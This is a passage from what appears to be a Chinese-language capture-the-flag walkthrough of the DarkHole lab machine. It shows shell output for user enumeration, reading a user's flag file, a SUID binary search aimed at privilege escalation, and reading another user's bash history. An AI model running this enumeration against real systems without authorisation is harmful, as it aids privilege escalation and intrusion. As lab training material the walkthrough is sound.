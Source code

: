     ```python
    jehad@darkhole:~$ whoami
    jehad
    jehad@darkhole:~$ id
    uid=1001(jehad) gid=1001(jehad) groups=1001(jehad)
    jehad@darkhole:~$ uname -a
    Linux darkhole 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    ```
    
3. 寻找敏感文件
    - `/home/losy` 目录下存在`user.txt` 是`flag`文件
        
        ```python
        ehad@darkhole:/home/losy$ cat user.txt
        DarkHole{'This_is_the_life_man_better_than_a_cruise'}
        ```
        
    - 寻找SUID文件
        
        ```python
        jehad@darkhole:/home/losy$ find / -perm -u=s -type f 2>/dev/null                                                                                                                                   02:06:46 [3/65]
        /usr/bin/sudo                                                                                                                                                                                                     
        /usr/bin/passwd                                                                                                                                                                                                   
        /usr/bin/chfn                                                                                                                                                                                                     
        /usr/bin/chsh
        /usr/bin/fusermount
        /usr/bin/gpasswd
        /usr/bin/pkexec
        /usr/bin/newgrp
        /usr/bin/umount
        /usr/bin/mount
        /usr/bin/su
        /usr/bin/at
        /usr/lib/openssh/ssh-keysign
        /usr/lib/dbus-1.0/dbus-daemon-launch-helper
        /usr/lib/policykit-1/polkit-agent-helper-1
        /usr/lib/eject/dmcrypt-get-device
        /usr/lib/snapd/snap-confine
        ```
        
        想尝试`snapd` 提权的，但是版本对不上
        
4. 查看`bash`历史记录
    
    ```python
    jehad@darkhole:~$ cat .bash_history 
    ```
    
    ![image.png](image%2078.png)
